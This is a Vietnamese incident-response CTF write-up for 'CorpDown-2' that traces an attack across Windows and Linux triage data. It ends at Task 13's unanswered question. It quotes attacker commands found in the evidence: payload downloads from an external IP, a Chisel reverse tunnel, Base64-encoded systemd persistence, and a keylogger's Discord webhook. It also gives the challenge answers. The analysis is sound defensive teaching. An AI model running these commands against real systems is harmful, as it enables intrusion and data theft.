# WRITE_UP #

## CorpDown-2 ##

### 1. Description ###
* **Given:** triage của 3 endpoint Windows được thu bằng `Velociraptor` và triage của 1 endpoint Linux được thu bằng `CatScale`.
* **Description:** A security breach was detected on TriDsk-WKS01 shortly after an employee returned from vacation. The TriDsk corporate IR team identified additional anomalous activity but prematurely initiated containment and eradication before completing identification, analysis, and scoping, limiting situational awareness. The threat actor observed IR interference and adapted their operations, accelerating lateral movement across the corporate network and leveraging existing persistence. This facilitated backup deletion and large-scale data exfiltration, culminating in a Corp Down scenario that rendered standard restoration procedures ineffective.
* **Hints:**
    * No hint is given.
* **Difficulty:** Hard 

### 2. Investigation ###
Đề bài cung cấp triage được thu bằng `Velociraptor` của 3 endpoint Windows gồm `TriDsk-WKS01`, `DC01`, `FS01` và triage của endpoint Linux `APP01` được thu bằng `CatScale`.



> Dữ liệu trên các endpoint Windows được thu thập bằng artifact `Windows.KapeFiles.Targets` của `Velociraptor`. Cấu trúc của mỗi collection thường có dạng như sau:
> ```text
> ├── <Tên_thiết_bị>
>     ├── results
>         ├── Windows.KapeFiles.Targets%2FAll File Metadata.{csv,json}
>         └── Windows.KapeFiles.Targets%2FUploads.{csv,json}
>     ├── uploads
>         ├── auto (chứa các tệp được thu thập theo đường dẫn thông thường như Event Log, Registry, Prefetch và dữ liệu người dùng)
>         └── ntfs (chứa các NTFS artifact được đọc trực tiếp như $MFT, $LogFile, $UsnJrnl, $Boot và $Secure)
>     └── các tệp metadata của collection như client_info.json, collection_context.json, requests.json, uploads.json và log.json
> ```
>
> Thư mục `results` chứa kết quả truy vấn và danh sách/metadata của các tệp được thu thập; dữ liệu forensic thực tế nằm chủ yếu trong `uploads`. Tên ổ đĩa và đường dẫn trong collection được URL-encode, ví dụ `C:` thành `C%3A` và `\\.\C:` thành `%5C%5C.%5CC%3A`.

> Cấu trúc của triage được thu bằng `catscale` thường có dạng như sau:
> ```text
> ├── catscale_out
>     ├── Docker              (thông tin container và cấu hình Docker)
>     ├── Logs                (system log, authentication log, wtmp/btmp/lastlog và các tệp log được đóng gói)
>     ├── Misc                (full filesystem timeline, danh sách tệp thực thi, hash và kết quả tìm webshell)
>     ├── Persistence         (cron, systemd service và trạng thái các service)
>     ├── Podman              (thông tin container và cấu hình Podman)
>     ├── Process_and_Network (process, command line, file descriptor, socket, route, firewall và SSH artifact)
>     ├── System_Info         (thông tin hệ điều hành, phần cứng, package, mount point và các tệp cấu hình quan trọng)
>     ├── User_Files          (danh sách và bản sao dữ liệu trong home directory của người dùng)
>     └── Virsh               (thông tin máy ảo được quản lý bằng libvirt/virsh)
> ```


#### Phase 1: The First Endpoint ####
##### Task 1: #####
```text
The threat actor abused an internal communication service between employees and shared a malicious file to facilitate lateral movement within the network. This activity is believed to have originated from TriDsk-WKS02 which was recently compromised. Provide the full path of the file that was downloaded.

Dịch: Kẻ tấn công đã lợi dụng dịch vụ liên lạc nội bộ giữa các nhân viên và chia sẻ một tập tin độc hại để tạo điều kiện cho việc di chuyển ngang trong mạng. Hành động này được cho là bắt nguồn từ TriDsk-WKS02, hệ thống vừa bị xâm nhập gần đây. Hãy cung cấp đường dẫn đầy đủ của tập tin đã được tải xuống.
```

Đề bài có nhắc đến `TriDsk-WKS01` là thiết bị đầu tiên được phát hiện là có hoạt động xâm nhập từ bên ngoài nên chúng ta sẽ tiến hành điều tra từ máy chủ này trước. Sử dụng `FTK Imager` để xem nội dung của `TriDsk-WKS01`. Thiết bị này có tổng cộng 7 user, lần lượt là: `Abdallah.Kh`, `administrator`, `Default`, `fin01`, `hr01`, `martha`, `Public`:



Ở user `martha`, tại thư mục `Downloads`, ta tìm thấy 1 tệp shortcut đáng ngờ có tên `TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk`:



Có thể sử dụng lệnh `strings` kết hợp với tham số `-el` để đọc nội dung của tệp này:

```bash
strings -el TriDsk-WKS01-C.3161d89c4b01d28c/uploads/auto/C%3A/Users/martha/Downloads/TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk
```



Có thể thấy đây là 1 shortcut có nhiệm vụ tải rồi thực thi luôn 1 tệp đáng nghi tên `wctBB85.exe`, tìm trong `martha\AppData\Local\Temp` có thể thấy tệp thực thi này, bên cạnh đó ta cũng tìm được 1 tệp khác sử dụng kỹ thuật masquerading có tên `svchosts.exe` thay vì tệp thực thi hợp pháp của Windows là `svchost.exe`, nhưng mình sẽ bàn đến file này ở những phần sau:





Có thể thấy tệp `wctBB85.exe` là framework `Empire`. Sử dụng `MFTECmd` để parse dữ liệu của `TriDsk-WKS01-C.3161d89c4b01d28c\uploads\ntfs\%5C%5C.%5CC%3A\$MFT`, ta có thể tìm được thời gian được tạo của file `.lnk` này là `2025-12-26 00:43:26`:



Nếu mở `Windows PowerShell.evtx` của endpoint này ta sẽ thấy lệnh powershell đầu tiên được chạy vào ngày `2025-12-26` là `ps` vào lúc `00:51:47` (đổi từ UTC+7 của máy local sang UTC):



Sau đó là loạt lệnh `whoami`, 1 script powershell `Invoke-ProcessKiller`, lệnh tải 1 file khác từ `http://93.121.68.219:8908/645.exe` vào `C:\Users\Public\Music\temp.exe`, `pwd`, `dir`, lệnh tải và sử dụng `svchosts.exe`, ... ta còn thấy lệnh tạo task chạy `wctBB85.exe` là:

```powershell
schtasks /create /sc minute /mo 10 /tn "update" /tr "C:\Users\martha\AppData\Local\Temp\wctBB85.exe"
# Tạo 1 scheduled task có tên "update" rồi trỏ vào wctBB85.exe, rồi cứ 10 phút chạy 1 lần
```



Ta có thể suy luận được chuỗi tấn công vào `TriDsk-WKS01` từ đây, tuy nhiên toàn bộ sự kiện đều xảy ra sau khi tệp shortcut ban đầu xuất hiện nên `TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk` chính là entry point của cuộc tấn công này.

Vậy đáp án cho câu hỏi là: `C:\Users\Martha\Downloads\TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk`

##### Task 2 #####
```text
The threat actor downloaded a keylogger to the endpoint to capture user keystrokes. Provide the exact URL used to download the keylogger.

Dịch: Kẻ tấn công đã tải xuống 1 phần mềm ghi lại thao tác bấm phím (keylogger) để thu thập thông tin khi người dùng gõ phím. Hãy cung cấp URL chính xác được sử dụng để tải xuống phần mềm đó.
```

Ở trên chúng ta đã nhắc đến các stage tiếp theo của cuộc tấn công, lần lượt là 1 script powershell có tên `Invoke-ProcessKiller`, các tệp thực thi `temp.exe`, `svchosts.exe`:

```powershell
powershell -NoProfile -NonInteractive -Command function Invoke-ProcessKiller {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory = $True, Position = 0)]
        [ValidateNotNullOrEmpty()]
        [String]
        $ProcessName,
        [Parameter(Position = 1)]
        [Int]
        $Sleep = 1,
        [Parameter(Position = 2)]
        [Switch]
        $Silent
    )
    "Invoke-ProcessKiller monitoring for $ProcessName every $Sleep seconds"
    while($true){
        Start-Sleep $Sleep
        Get-Process $ProcessName | % {
            if (-not $Silent) {
                "`n$ProcessName process started, killing..."
            }
            Stop-Process $_.Id -Force
        }
    }
} 
Invoke-ProcessKiller -ProcessName "ssh" -Sleep "1" 
```

Nội dung của hàm này:
* Hàm này sẽ tiến hành quét process ở biến `$ProcessName`, ở đây là `ssh` mỗi `1` giây 1 lần.
* Nếu phát hiện tiến trình đang được chạy nó sẽ tiến hành thực hiện bắt buộc hệ điều hành đóng tiến trình này qua tham số `-Force`.

Với 2 tệp nhị phân còn lại ta có thể upload chúng lên [VirusTotal](https://www.virustotal.com/):





- `svchosts.exe` là công cụ `Chisel` - một công cụ mã nguồn mở dùng để tạo đường hầm TCP/UDP qua HTTP (kỹ thuật Port Forwarding), cũng chính là kỹ thuật kẻ tấn công thực hiện ở những bước sau này.

- `temp.exe` chính là tệp thực thi đánh cắp dữ liệu gõ phím của người dùng, sau đó nó sẽ lưu dữ liệu đã đánh cắp được vào 1 tệp tên `edg698F.dat`, trước khi gửi dữ liệu vào 1 URL `Pastebin`. Chúng ta cũng có thể tìm thấy file `edg698F.dat` ở  `martha\AppData\Local\Temp`, tuy nhiên nội dung của nó cũng không có gì đặc sắc.

Quay trở lại với câu hỏi thì như đã nói ở trên, chúng ta có thể tìm thấy lệnh thực hiện tải và chạy `temp.exe` trong `Windows PowerShell.evtx` tại mốc thời gian `00:57:43` và `01:00:40`:

```powershell
powershell.exe 'iwr "http://93.121.68.219:8908/645.exe" -OutFile "C:\Users\Public\Music\temp.exe"'
powershell -Command C:\Users\Public\Music\temp.exe
```





Vậy đáp án cho câu hỏi là: `http://93.121.68.219:8908/645.exe`.

##### Task 3 #####
```text
The threat actor identified and abused a protocol that enabled pivoting to other endpoint within the environment. They used a tool to facilitate further lateral movement abusing this protocol. Find the full command line used to move laterally using port forwarding.

Dịch: Kẻ tấn công đã xác định và lợi dụng một giao thức cho phép chuyển hướng đến thiết bị đầu cuối khác trong phạm vi. Chúng đã sử dụng một công cụ để tạo điều kiện cho việc di chuyển ngang tiếp theo bằng cách lợi dụng giao thức này. Xác định toàn bộ dòng lệnh được sử dụng để di chuyển ngang bằng cách sử dụng chuyển tiếp cổng.
```

Như đã xác định ở trên, công cụ mà kẻ tấn công đã sử dụng là [Chisel](https://github.com/jpillora/chisel), đề bài cũng đã đề cập đến kỹ thuật mà chúng sử dụng là `Port Forwarding`:
* *Port Forwarding: là một kỹ thuật mạng cho phép định tuyến lưu lượng truy cập từ một địa chỉ IP và cổng này sang một địa chỉ IP và cổng khác.*

Tiếp tục sử dụng `Windows PowerShell.evtx`, tại thời điểm `01:31:09`, ta có thể thấy chu kỳ chạy lệnh của kẻ tấn công sử dụng công cụ `svchosts.exe` thực hiện kỹ thuật `Reverse Port Forwarding`:



```bash
powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22
```

Lệnh này làm những việc sau:
* Chạy chisel ở chế độ khách (client) để kết nối ra bên ngoài.
* Cài mã băm vân tay (fingerprint) của máy chủ để xác thực danh tính.
* Địa chỉ IP `93.121.68.219:8080` là địa chỉ của kẻ tấn công, máy của nạn nhân đang cố gắng mở một kết nối đến IP của kẻ tấn công thông qua cổng `8080` để tránh tường lửa chặn.
* `R:8000:10.101.1.12:22` là yêu cầu mở cổng `8000` của máy chủ của kẻ tấn công, sau đó lưu lượng từ máy kẻ tấn công sẽ được đẩy ngược qua máy bị nhiễm `martha` (đóng vai trò như 1 đường hầm) rồi được chuyển tiếp đến IP nội bộ `10.101.1.12` tại cổng `22` của giao thức SSH.

Vậy ta cũng biết giao thức mạng bị kẻ tấn công lợi dụng là SSH.

Vậy đáp án cho câu hỏi là: `powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22`. 

##### Task 4 #####
```text
To force the user to re-enter their credentials for credential harvesting, the threat actor deployed a script that continuously monitors for the execution of the process related to the protocol being abused and immediately terminates it. Provide the process termination time.

Dịch: Để buộc người dùng nhập lại thông tin đăng nhập nhằm mục đích thu thập thông tin đăng nhập, kẻ tấn công đã triển khai một đoạn mã liên tục giám sát quá trình thực thi của giao thức bị lạm dụng và ngay lập tức ngừng tiến trình này. Xác định thời điểm tiến trình bị ngừng.
```

Chúng ta đã đến bước tiếp theo của cuộc tấn công khi kẻ tấn công đã hoàn thành chuẩn bị cho việc di chuyển ngang sang IP `10.101.1.12` bằng cách mở 1 kết nối SSH. Đồng thời ở những câu trên ta cũng đã xác định được đoạn mã được kẻ tấn công sử dụng để giám sát tiến trình SSH đang chạy, phù hợp với miêu tả của đề bài.

Đây là 1 câu khá tricky, việc đầu tiên mình làm là sử dụng công cụ `PECmd` của Eric Zimmerman để parse các file `.pf` của máy `TriDsk-WKS01`, sau đó lọc ra những tiến trình của `ssh.exe`:



Ở đây cần lưu ý là đoạn mã `Invoke-ProcessKiller` được kẻ tấn công deploy vào lúc `00:52:47`, và prefetch chỉ ghi nhận 1 lần việc `ssh.exe` được khởi động sau mốc này vào `01:09:08`, như đoạn mã và đề bài cũng đề cập đến việc tiến trình sẽ bị ngừng ngay khi đoạn mã phát hiện tiến trình này đang chạy nên mình nộp thử đáp án `01:09:08` và vài mốc xung quanh nhưng đây không phải đáp án đúng.

Vấn đề ở đây là endpoint Windows không bật audit process termination nên không có Event ID `4689` ghi trực tiếp thời điểm `ssh.exe` bị dừng. Prefetch cũng chỉ cho biết thời điểm chương trình được thực thi, không ghi nhận thời điểm process kết thúc. Vì vậy cần tìm đầu bên kia của kết nối SSH và đối chiếu thời điểm server nhận thấy session bị ngắt.

Trong `client_info.json` của `TriDsk-WKS01`, ta xác định máy này có địa chỉ IP `10.101.2.7`. Kết quả `sudo -V` do CatScale thu thập trên `APP01` cho thấy địa chỉ IP local của máy là `10.101.1.12`. Đây chính là địa chỉ và cổng SSH mà Chisel chuyển tiếp lưu lượng đến ở Task 3:

```text
TriDsk-WKS01 (10.101.2.7) -- SSH --> APP01 (10.101.1.12:22)
```



Trong `catscale_out\Logs` có file `app01-20251226-1001-var-log.tar.gz`. Sau khi giải nén, ta thu được toàn bộ thư mục `/var/log` của APP01, bao gồm persistent systemd journal và file `wtmp`:

> * */var/log/journal/*: là thư mục lưu các persistent journal dạng nhị phân do `systemd-journald` tạo. Các journal này ghi lại event của kernel, service và user session qua nhiều lần khởi động; có thể truy vấn bằng `journalctl`, bao gồm cả việc chỉ định journal đã thu thập offline qua tham số `--directory`. Có thể đọc thêm về journal tại [đây](https://www.freedesktop.org/software/systemd/man/latest/systemd-journald.service.html).
>
> * *wtmp*: là database dạng nhị phân lưu lịch sử login, logout, thời gian tồn tại của session và các lần reboot/shutdown. Lệnh `last` đọc file này để hiển thị user, terminal, source host và khoảng thời gian của từng phiên. Có thể đọc thêm về wtmp tại [đây](https://man7.org/linux/man-pages/man5/utmp.5.html).

Như vậy, ta có thể truy vấn journal để tìm các tiến trình ssh bị đóng trong ngày `26-12-2025` bắt đầu từ mốc thời gian kẻ tấn công chạy mã độc bằng lệnh:

```bash
journalctl --directory=var/log/journal  _COMM=sshd --since='2025-12-26 00:52:47 UTC'
```

Kết quả cho thấy APP01 đóng SSH session của `dev01@tridsk.local` vài giây sau thời điểm kẻ tấn công sử dụng đoạn mã ProcessKiller:



```text
Dec 26 00:52:51 app01.tridsk.local sshd[34167]: pam_unix(sshd:session): session closed for user dev01@tridsk.local
```

Chúng ta cũng có thể double-check bằng `wtmp`, đã có sẵn lệnh chạy `last` ở `catscale_out/Logs/app01-20251226-1001-last-wtmp.txt`:



```text
dev01@Tr pts/0  10.101.2.7  Fri Dec 26 02:48:05 2025 - Fri Dec 26 02:52:51 2025  (00:04)
```

Tuy nhiên đây là local time của máy nạn nhân, ta có thể đối chiếu với các mốc thời gian trước đó ở trong bài để suy ra timezone của họ để lấy được thời điểm chuẩn theo UTC.

Điểm cần lưu ý là đây chưa phải bước lateral movement thực sự của kẻ tấn công mà chỉ là phiên SSH hợp lệ được người dùng `dev01` mở từ `TriDsk-WKS01` đến `APP01` từ trước. Khi script `Invoke-ProcessKiller` trên WKS01 phát hiện và cưỡng chế dừng `ssh.exe`, kết nối TCP bị ngắt nên `sshd` trên APP01 ghi nhận session bị đóng lúc `00:52:51`. Việc này buộc người dùng phải kết nối lại và nhập lại mật khẩu, tạo điều kiện cho các stage sau của cuộc tấn công.

Vậy đáp án cho câu hỏi là: `2025-12-26 00:52:51`

##### Task 5 #####
```text
Identify the time interval (in milliseconds) that the keylogger waits before sending captured data to the server.

Dịch: Xác định khoảng thời gian tính bằng mili giây mà phần mềm đánh cắp dữ liệu gõ phím chờ trước khi gửi dữ liệu đã thu thập được đến máy chủ.
```

Như đã xác định ở trên, phần mềm keylogger ở đây là `temp.exe`, chúng ta có thể tìm thấy file này ở thư mục `Public\Music` của máy trạm `TriDsk-WKS01`, để dịch ngược file thực thi này mình dùng `IDA`. Đầu tiên ta cần tìm hàm gọi các API kết nối ra bên ngoài, ở đây mình tìm được hàm `sub_140001680`:



Hàm này là hàm sẽ handle việc truyền dữ liệu qua ngoài Internet, hàm gọi hàm này là `sub_1400023D0`:



Hàm này xử lý 1 chuỗi raw URL pastebin `https://pastebin.com/raw/vt8yt1pH` qua hàm `sub_1400064A0` rồi truyền kết quả chuỗi đó vào hàm `sub_140001680` để kết nối ra ngoài Internet như chúng ta đã phân tích ở trên. Hàm `sub_1400023D0` được gọi bởi hàm `main` và sẽ được thực hiện khi điều kiện trong khối `if` đúng:



```C
if ( clock() - v63 >= 1200000 )
    {
      sub_1400023D0();
      v63 = clock();
    }
```

Trong đó biến `v63` được gán bằng `clock()` khi bắt đầu hàm. Vậy file thực thi keylogger này sẽ chờ từ thời điểm nó bắt đầu được chạy cho đến khi đạt đủ `1200000` mili giây để bắt đầu truyền dữ liệu ra ngoài Internet.

Vậy đáp án cho câu hỏi là: `1200000`.

##### Task 6 #####
```text
The keylogger exfiltrated captured data to a remote server. Provide the full destination URL.

Dịch: Phần mềm đánh cắp dữ liệu gõ phím đã đánh cắp dữ liệu và chuyển đến máy chủ đích. Hãy cung cấp đầy đủ URL đích
```

Ở bước dịch ngược trên chúng ta đã xác định được 1 URL Pastebin, tuy nhiên đó là raw URL chứ không phải URL đích thực sự của kẻ tấn công, để tìm URL đích ta cần dán URL Pastebin này vào trình duyệt để xác định được nội dung của nó:



Địa chỉ server của kẻ tấn công là một Discord webhook, phù hợp với miêu tả của `VirusTotal` khi chúng ta upload file này lên.

Vậy đáp án cho câu hỏi là: `https://discord.com/api/webhooks/1452445434894221455/pKIO5TZGrGL7KaWLb_H03S61nI9OcRe_UKvEHhOBgG507IyprUxzYzBSOyTj46c2AVCY`

#### Phase 2: The Second Endpoint ####
##### Task 7 #####
```text
After harvesting credentials, the threat actor moved laterally to another endpoint. When did they successfully authenticate to the new endpoint?

Dịch: Sau khi thu thập được thông tin đăng nhập, kẻ tấn công đã di chuyển ngang sang một endpoint khác. Chúng đã xác thực thành công vào endpoint mới vào thời điểm nào?
```

Từ Task 3 và Task 4, chúng ta đã xác định được endpoint tiếp theo là `APP01` có địa chỉ IP `10.101.1.12`, đồng thời người dùng kết nối SSH từ `TriDsk-WKS01` là `dev01@TriDsk.local`. Do đó ta hoàn toàn có thể sử dụng lệnh đã chạy ở trước để tiếp tục sử dụng `var/log/journal` và lọc các sự kiện của process `sshd`:

```bash
journalctl --directory=var/log/journal  _COMM=sshd --since='2025-12-26 00:52:47 UTC'
```

Kết quả trả về chuỗi sự kiện sau:

```text
Dec 26 01:09:26 app01.tridsk.local sshd[34932]: pam_sss(sshd:auth): authentication success; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.101.2.7 user=dev01@tridsk.local
Dec 26 01:09:27 app01.tridsk.local sshd[34932]: Accepted password for dev01@tridsk.local from 10.101.2.7 port 50309 ssh2
Dec 26 01:09:27 app01.tridsk.local sshd[34932]: pam_unix(sshd:session): session opened for user dev01@tridsk.local(uid=1751201214) by (uid=0)
Dec 26 01:32:59 app01.tridsk.local sshd[35151]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.101.2.7  user=dev01@tridsk.local
Dec 26 01:33:02 app01.tridsk.local sshd[35151]: pam_sss(sshd:auth): authentication success; logname= uid=0 euid=0 tty=ssh ruser= rhost=10.101.2.7 user=dev01@tridsk.local
Dec 26 01:33:03 app01.tridsk.local sshd[35151]: Accepted password for dev01@tridsk.local from 10.101.2.7 port 50922 ssh2
Dec 26 01:33:03 app01.tridsk.local sshd[35151]: pam_unix(sshd:session): session opened for user dev01@tridsk.local(uid=1751201214) by (uid=0)
```



Có thể thấy có 2 phiên SSH đã được kết nối thành công sau khi script giám sát và ngừng tiến trình SSH ban đầu được sử dụng, lần lượt ở `01:09:27` và `01:33:03`. Tuy nhiên phiên sớm hơn trước đó chính là phiên mà kẻ tấn công bắt nạn nhân đăng nhập lại để thu thập thông tin để hắn đăng nhập vào phiên sau đó.

Bên cạnh đó mặc dù PAM ghi nhận `authentication success` tại `01:33:02`, quá trình đăng nhập chỉ được SSH server chấp nhận và session mới được mở tại `01:33:03` nên đây mới là đáp án.

Vậy đáp án cho câu hỏi là: `2025-12-26 01:33:03`

##### Task 8 #####
```text
After moving laterally to the second system, the threat actor downloaded two malicious executables. When was the second executable file downloaded?

Dịch: Sau khi di chuyển ngang sang hệ thống thứ hai, kẻ tấn công đã tải xuống hai tệp thực thi độc hại. Tệp thực thi thứ hai được tải xuống vào thời điểm nào?
```

Để xác định hai tệp được tải xuống, ta kiểm tra bash history của user `dev01@TriDsk.local` nằm trong `catscale_out/User_Files/hidden-user-home-dir.tar.gz`. Sau khi giải nén ta thu được thư mục `/home` và `/root`. Ta tìm thấy user `dev01@TriDsk.local` ở `/home`, đọc file `.bash_history`, ta sẽ thấy hai lệnh tải payload từ cùng server của kẻ tấn công:

```bash
wget http://93.121.68.219:8908/b22 -O /tmp/bash
chmod +x bash
./bash

wget http://93.121.68.219:8908/b21 -O /tmp/sh
chmod +x sh
./sh &
```



Như vậy ta xác định tệp thực thi thứ hai là `/tmp/sh`. Bash history không lưu timestamp của từng lệnh nên ta cần đối chiếu với filesystem timeline do CatScale tạo tại `catscale_out/Misc/app01-20251226-1001-full-timeline.csv`:



Timestamp trong timeline đã kèm offset `+0200`, vì vậy quy đổi sang UTC ta có `2025-12-26 01:50:20`.

Vậy đáp án cho câu hỏi là: `2025-12-26 01:50:20`

##### Task 9 #####
```text
The threat actor established persistence on this newly compromised endpoint after successfully escalating privileges. What is the full command that is executed as part of the persistence mechanism?

Dịch: Kẻ tấn công đã thiết lập persistence trên endpoint vừa bị xâm nhập sau khi leo thang đặc quyền thành công. Dòng lệnh đầy đủ được thực thi như một phần của cơ chế persistence là gì?
```

Tại Task 8, tệp `/tmp/sh` được user `dev01@TriDsk.local` tải xuống và thực thi. Trong process snapshot của CatScale, process này vẫn đang chạy với `UID 0`, `GID 0` và parent process là PID 1, cho thấy payload đã chạy được dưới quyền `root`, nên khá chắc chắn đây là tệp tạo cơ chế persistence sau khi thành công leo quyền cho kẻ tấn công:



Tiếp tục kiểm tra thư mục `catscale_out/Persistence`, trong file `app01-20251226-1001-persistence-systemdlist.txt` ta phát hiện một systemd service đáng ngờ có tên `systemd-journald-helper.service`. Tên và description của service được đặt giống một thành phần hệ thống để ngụy trang, tuy nhiên trường `ExecStart` lại thực thi một chuỗi Base64 bằng Bash:

```ini
[Unit]
Description=System Journal Helper Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c "echo 'Y3VybCAtZnNTTCBodHRwOi8vOTMuMTIxLjY4LjIxOTo4OTA4L3VwZGF0MyAtbyAvZGV2L3NobS8udXBkJiYgY2htb2QgK3ggL2Rldi9zaG0vLnVwZCYmIC9kZXYvc2htLy51cGQ=' | base64 -d | bash"
Restart=always
RestartSec=60

[Install]
WantedBy=multi-user.target
```



Kẻ tấn công đã cấu hình tham số `Restart=always` khiến service được chạy lại nếu payload kết thúc. Ta giải mã chuỗi Base64 bằng lệnh sau:

```bash
echo 'Y3VybCAtZnNTTCBodHRwOi8vOTMuMTIxLjY4LjIxOTo4OTA4L3VwZGF0MyAtbyAvZGV2L3NobS8udXBkJiYgY2htb2QgK3ggL2Rldi9zaG0vLnVwZCYmIC9kZXYvc2htLy51cGQ=' | base64 -d
```

Ta thu được command thực tế mà cơ chế persistence tải xuống và thực thi:



```bash
curl -fsSL http://93.121.68.219:8908/updat3 -o /dev/shm/.upd&& chmod +x /dev/shm/.upd&& /dev/shm/.upd
```

Lệnh này tải payload `updat3` vào file ẩn `/dev/shm/.upd`, cấp quyền thực thi cho file rồi chạy nó. 

Vậy đáp án cho câu hỏi là: `curl -fsSL http://93.121.68.219:8908/updat3 -o /dev/shm/.upd&& chmod +x /dev/shm/.upd&& /dev/shm/.upd`

##### Task 10 #####
```text
Determine the total dwell time, in minutes, that the threat actor spent on the second endpoint.

Dịch: Xác định tổng thời gian tính bằng phút mà kẻ tấn công đã dành ra trên endpoint thứ hai.
```

Để tính dwell time trên `APP01`, ta sử dụng thời điểm bắt đầu và kết thúc của SSH session mà kẻ tấn công đã mở tại Task 7 mà ta đã xác định là `01:33:03 UTC`. Giờ ta chỉ cần xác định thời điểm kết thúc phiên SSH này, cũng bằng lệnh trên ta xác định 2 mốc thời gian có phiên SSH được đóng sau khi kẻ tấn công mở phiên SSH của hắn lần lượt vào `05:23:28` và `07:42:04`:



Ở đây hoàn toàn có thể nộp 1 cái rồi xác định đáp án, nhưng có cách nào để xác định đáp án đúng mà không cần đoán mò không ? Chúng ta có thể kiểm tra số thứ tự của phiên kết nối của kẻ tấn công bằng cách lọc rộng hơn thay vì chỉ lọc `_COMM=sshd`. Vì `systemd` mới là hệ thống ghi lại và xác nhận quá trình mở các phiên login, và nó cũng đánh số cho các phiên kết nối này, ta lọc quanh mốc attacker mở SSH:

```bash
journalctl --directory=var/log/journal --since='2025-12-26 01:33:02 UTC' --until='2025-12-26 01:33:05 UTC' | grep dev01
```



```text
Dec 26 01:33:03 app01.tridsk.local systemd[1]: Started Session 55 of User dev01@TriDsk.local.
Dec 26 01:33:03 app01.tridsk.local systemd-logind[1073]: New session 55 of user dev01@TriDsk.local.
```

Giờ ta chỉ cần kiểm tra trong 2 mốc trên mốc nào chứa event đóng Session 55 là ra được mốc đúng:



```text
Dec 26 05:23:28 app01.tridsk.local systemd-logind[35821]: Session 55 logged out. Waiting for processes to exit.
```

Cách thứ 2 là kiểm tra file `wtmp`, cũng xác nhận cùng session từ IP `10.101.2.7` kéo dài `3 giờ 50 phút 25 giây`, quy đổi ra phút là `13825 / 60 = 230.416666..`, sau khi làm tròn ta thu được đáp án.


Vậy đáp án cho câu hỏi là: `230.42`

#### Phase 3: The Third Endpoint ####
##### Task 11 & Task 12 #####
```text
The threat actor performed lateral movement from Second Compromised Endpoint to another endpoint. Which alternative user account was used to access the target endpoint?

Dịch: Kẻ tấn công đã di chuyển ngang từ endpoint bị xâm nhập thứ hai sang một endpoint khác. Tài khoản người dùng thay thế nào đã được sử dụng để truy cập endpoint mục tiêu?
```

```text
The threat actor obtained initial access on third machine by downloading and executing a malicious executable. Provide the full command used to execute the malicious file.

Dịch: Kẻ tấn công đã giành được quyền truy cập ban đầu vào máy trạm thứ ba bằng cách tải và thực thi một tệp độc hại. Hãy cung cấp toàn bộ câu lệnh đã được sử dụng để thực thi tệp đó.
```

Ở Task 10, ta đã xác định SSH session của attacker trên `APP01` tồn tại từ `2025-12-26 01:33:03 UTC` đến `05:23:28 UTC`. Vì vậy, để tìm endpoint tiếp theo, ta kiểm tra các endpoint Windows còn lại và tìm những network logon có địa chỉ IP `10.101.1.12` của `APP01`.

Ta lọc theo ID `4624` để tìm ra các phiên đăng nhập thành công trong `Security.evtx` của `DC01`, lần xác thực NTLM đầu tiên từ `APP01` bằng account `filesrv_admin` xuất hiện tại `2025-12-26 02:04:41 UTC`. Sau khi quay lại để kiểm tra các sự kiện quanh mốc đó ta cũng thấy credential của `FileSrv_Admin` được Domain Controller xác thực thành công ở connection bằng event ID `4776` và event `4672` ghi nhận account được cấp đặc quyền đặc biệt:






Tuy nhiên đây chưa phải bằng chứng thuyết phục để xác thực rằng đây là tài khoản chúng ta cần tìm. Vì vậy ta cần tìm thêm bằng chứng. Ở Task 12, ta được biết tại endpoint thứ 3 thì kẻ tấn công sẽ cố gắng tải và thực thi 1 file độc hại, tại `Windows PowerShell.evtx` của `DC01`, ở các mốc thời gian `02:16:12 UTC` và `02:21:55 UTC` ta có thể thấy các lệnh tải payload từ Internet của kẻ tấn công:





```powershell
powershell -nop -exec bypass -enc SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwA5ADMALgAxADIAMQAuADYAOAAuADIAMQA5ADoAMQAyADkAMAAvAHQALgBlAHgAZQAiACAALQBPAHUAdABGAGkAbABlACAAIgAkAGUAbgB2ADoAdABlAG0AcABcAHUAcABkAGEAdABlAC4AZQB4AGUAIgA=
# decode đoạn base64 encoded thu được: Invoke-WebRequest -Uri "http://93.121.68.219:1290/t.exe" -OutFile "$env:temp\update.exe"

powershell -nop -exec bypass -enc SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwA5ADMALgAxADIAMQAuADYAOAAuADIAMQA5ADoAMQAyADkAMAAvAHQALgBlAHgAZQAiACAALQBPAHUAdABGAGkAbABlACAAIgBDADoAXABVAHMAZQByAHMAXABBAGQAbQBpAG4AaQBzAHQAcgBhAHQAbwByAFwATQB1AHMAaQBjAFwAdQBwAGQAYQB0AGUALgBlAHgAZQAiAA==
# decode đoạn base64 encoded thu được: Invoke-WebRequest -Uri "http://93.121.68.219:1290/t.exe" -OutFile "C:\Users\Administrator\Music\update.exe"
```

Kẻ tấn công tải cùng 1 file thực thi xuống 2 thư mục khác nhau, và ở mốc `02:22:51 UTC` thì ta thấy hắn quyết định sử dụng file ở lệnh tải thứ 2:



```powershell
powershell -c Start-Process C:\Users\Administrator\Music\update.exe
```

Vậy đáp án cho câu hỏi thứ 11 là: `FileSrv_Admin`

Vậy đáp án cho câu hỏi thứ 12 là: `powershell -c Start-Process C:\Users\Administrator\Music\update.exe`

##### Task 13 #####
```text
What is the full file path associated with the malicious service created on the third compromised endpoint?

Dịch: Đường dẫn tệp đầy đủ được liên kết với service độc hại được tạo trên endpoint thứ ba là gì?
```

